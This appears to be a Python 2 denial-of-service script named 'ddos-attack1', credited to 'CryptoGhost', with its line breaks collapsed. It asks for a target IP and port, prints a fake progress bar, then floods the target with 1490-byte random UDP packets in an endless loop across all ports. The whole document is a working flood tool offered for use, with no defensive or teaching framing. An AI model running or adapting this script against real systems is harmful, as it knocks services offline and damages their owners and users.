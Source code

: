 # ddos-attack1
import sys import os import time import socket import random #Code Time from datetime import datetime now = datetime.now() hour = now.hour minute = now.minute sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) bytes = random._urandom(1490) day = now.day month = now.month year = now.year  ############## #############  os.system("clear") os.system("figlet CryptoGhost") print print "Author    : Da Dan" print "Created By: CryptoGhost" print "github    : https://github.com/CryptoGhost2" print "Facebook  : https://web.facebook.com/maafakundihekelbydadan" print ip = raw_input("IP Target : ") port = input("Port       : ")  os.system("clear") os.system("figlet Attac Starting") print "[                    ] 0% " time.sleep(5) print "[=====               ] 25%" time.sleep(5) print "[==========          ] 50%" time.sleep(5) print "[===============     ] 75%" time.sleep(5) print "[====================] 100%" time.sleep(3) sent = 0 while True:      sock.sendto(bytes, (ip,port))      sent = sent + 1      port = port + 1      print "Sent %s packet to %s throught port:%s"%(sent,ip,port)      if port == 65534:        port = 1
